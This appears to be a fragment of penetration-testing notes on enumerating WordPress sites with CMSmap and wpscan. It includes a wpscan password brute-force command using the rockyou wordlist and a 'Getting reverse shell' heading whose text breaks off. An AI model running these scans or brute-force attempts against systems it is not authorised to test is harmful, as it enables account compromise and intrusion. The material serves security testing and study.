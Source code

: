 ```yaml
---
description: Wordpress enumeration tools.
---
```


# Wordpress

CMSMAP - [https://github.com/Dionach/CMSmap](https://github.com/Dionach/CMSmap)

wpscan - [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)P

I installed CMSMAP at /opt/cmsmap directory.

```
cd /opt/cmsmap
$ python3 cmsmap.py http://192.168.1.2
```

```
$ wpscan --url http://192.168.1.2/ --api-token {APITOKEN}

$ wpscan --url http://192.168.1.2/ --passwords ~/rockyou.txt --usernames admin

$ wpscan --update --url http://192.168.1.2/ --enumerate ap --plugins-detection aggressive
```

### Getting reverse shell

When we have access to the admin panel, we can us
